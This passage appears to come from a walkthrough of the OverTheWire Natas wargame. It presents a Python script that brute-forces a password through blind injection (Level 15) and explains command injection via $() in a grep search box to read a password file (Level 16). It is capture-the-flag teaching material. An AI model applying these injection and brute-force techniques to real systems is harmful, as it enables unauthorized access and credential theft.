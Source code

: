 ```python
payload = {"username":""}

chars = ['A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z', 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '0', '1', '2', '3', '4', '5', '6', '7', '8', '9'] # all possible characters in the password

base = "" # current known correct password

for i in range(64):
    original_length = len(base)
    for c in chars:
        query = make_query(base, c)
        payload["username"] = query
        response = requests.post(url, auth=basic, params=payload)
        if is_correct(response):
            base += c
            print(base)
            break
    if original_length == len(base): # terminate when base can no longer be extended
        break

print("password is: " + base)
```

The main `for` loop guesses up to 64 chars (because password is defined with 64 chars in the source code), and iterates over each character in `chars`. It builds a new query for the current char, posts this to the endpoint using the `requests` library, and inspects the response. If the response is positive, the current character is added to `base` and the loop restarts to guess the next character in the password, else the next possible character is tried. When all possibilities are tried and the known password can't be extended anymore, the current known password is printed to the console.

The output of running the code looks like this:

[![result of running brute forcing script](/images/otw_natas/natas15-1_result.png)](/images/otw_natas/natas15-1_result.png)



### <a name="level-16"></a> Level 16

I initially thought the challenge was to bypass `preg_match` filtering to dump the contents of `dictionary.txt` to locate a string inside it.

After trying and getting nowhere, I looked for some hints and realised that the challenge was actually to get the password from `/etc/web_pass/natas17` using command injections.

We can inject commands by enclosing them in `$()` and entering this into the search box. Suppose we enter `$(echo nuts)` in the search box. The complete command which will be ran on the server is `grep -i $(echo nuts) dictionary.txt`. Because `echo nuts` is enclosed in `$()`, it will be executed first, which means the command which is ultimately executed on the server is `grep -i nuts dictionary.txt`. We will hence expect to see all words in `dictionary.txt` containing 'nuts' to show up, like this:
